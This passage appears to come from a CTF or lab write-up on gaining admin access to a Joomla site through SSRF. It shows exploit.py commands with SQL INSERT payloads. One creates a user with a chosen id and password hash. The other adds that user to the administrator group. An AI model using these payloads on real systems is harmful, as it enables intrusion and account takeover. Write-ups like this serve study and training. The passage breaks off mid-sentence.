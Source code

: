 ![evidence](./static/16-joomla-admin.png)

And that means the insert query works, but the user `admin2` does not have the admin access. When I do it again, but I decided to control the `id` file of the `MySQL` table, and that way it would be easier to make the second insert.

When I create a new user with the following `MySQL` query, and I use a random id `25`:
```shell
$ python2 exploit.py -u goblin -p "" -d "joomla" -P "INSERT INTO
> `joomla_users` (`id`, `name`, `username`, `passw
> ord`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`)VALUES
> (25, 'Administrator5', 'admin5', 'd2064d3581369
> 96bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(),
> NOW());" -v
```
And I `URL-encoded` the payload, and I send it with the `SSRF`, and after that, I make the payload to give the admin permissions:
```shell
$ python2 exploit.py -u goblin -p "" -d "joomla" -P "INSERT INTO
> `joomla_user_usergroup_map` (`user_id`,`group_id`) VALUES (25,'8');" -v
```
And I `URL-encoded` it, and I send it with the `SSRF`, and because the URL is so big I can't write it directly here, but it can be seen in:
